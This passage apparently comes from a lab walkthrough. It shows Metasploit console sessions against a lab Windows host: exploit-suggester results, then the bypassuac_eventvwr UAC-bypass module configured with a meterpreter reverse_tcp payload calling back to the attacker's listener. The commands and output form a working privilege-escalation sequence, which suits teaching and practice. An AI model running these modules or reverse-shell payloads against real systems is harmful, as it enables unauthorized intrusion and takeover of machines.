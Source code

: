 ```

[*] 10.10.170.20 - Collecting local exploits for x86/windows...
[*] 10.10.170.20 - 37 exploit checks are being tried...
[+] 10.10.170.20 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
**Answer**: `exploit/windows/local/bypassuac_eventvwr`
### What is the name of the incorrect option for `exploit/windows/local/bypassuac_eventvwr`?
```
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > show options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
```
**Answer**: `LHOST`
### What permission listed by `getprivs` allows us to take ownership of files?
```
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST <OPENVPN_IP>
LHOST => <OPENVPN_IP>
msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on <OPENVPN_IP>:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
```